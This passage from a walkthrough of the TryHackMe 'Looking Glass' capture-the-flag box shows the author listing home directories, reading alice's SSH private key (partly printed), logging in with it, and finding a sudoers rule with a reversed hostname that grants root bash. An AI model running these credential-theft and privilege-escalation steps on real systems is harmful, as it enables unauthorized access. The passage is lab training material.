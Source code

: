 > After a long searching , i noticed this on the /home directory .

```
humptydumpty@looking-glass:/home$ ls -la
drwx--x--x  6 alice        alice        4096 Jul  3 02:53 alice
drwx------  3 humptydumpty humptydumpty 4096 Oct  4 16:37 humptydumpty
drwxrwxrwx  5 jabberwock   jabberwock   4096 Oct  4 16:17 jabberwock
drwx------  5 tryhackme    tryhackme    4096 Jul  3 03:00 tryhackme
drwx------  3 tweedledee   tweedledee   4096 Jul  3 02:42 tweedledee
drwx------  2 tweedledum   tweedledum   4096 Jul  3 02:42 tweedledum

```
> we can *x* execute on alice directory , hence we could use **cd** permission , lets go check what's in there , first thing we have always to check the Privat key file so :
```
humptydumpty@looking-glass:/home$cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
<<HIDDEN>>
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```
> well well well , We got our why in lets save it and change the permission to **600** and get in:
```
chmod 600 id_rsa
ssh alice@IP -i id_rsa

```
> And we got the fourth user **Alice**:
```
alice@looking-glass:~$ id
uid=1005(alice) gid=1005(alice) groups=1005(alice)
```
> After a long search , i noticed this on the suders.d file :
```
alice@looking-glass:/etc/sudoers.d$ ls -al
total 24
drwxr-xr-x  2 root root 4096 Jul  3  2020 .
drwxr-xr-x 91 root root 4096 Sep 11 11:02 ..
-r--r-----  1 root root  958 Jan 18  2018 README
-r--r--r--  1 root root   49 Jul  3  2020 alice
-r--r-----  1 root root   57 Jul  3  2020 jabberwock
-r--r-----  1 root root  120 Jul  3  2020 tweedles

```
> all these files owned by the root but alice file we can read it as others :

```
alice@looking-glass:/etc/sudoers.d$ cat alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash

```
> Here we have a host name **ssalg-gnikool** its the reversed string of looking-glass so i was sure that the escalation is from here.
> After a long read , i realized that i could use this hostname to run /bin/bash as a root , so i search on sudo manual how i could specify a hostname:
```
-h host, --host=host
                 Run the command on the specified host if the security policy plugin supports remote commands.  Note that the sudoers plugin does not currently support running remote commands.  This may
```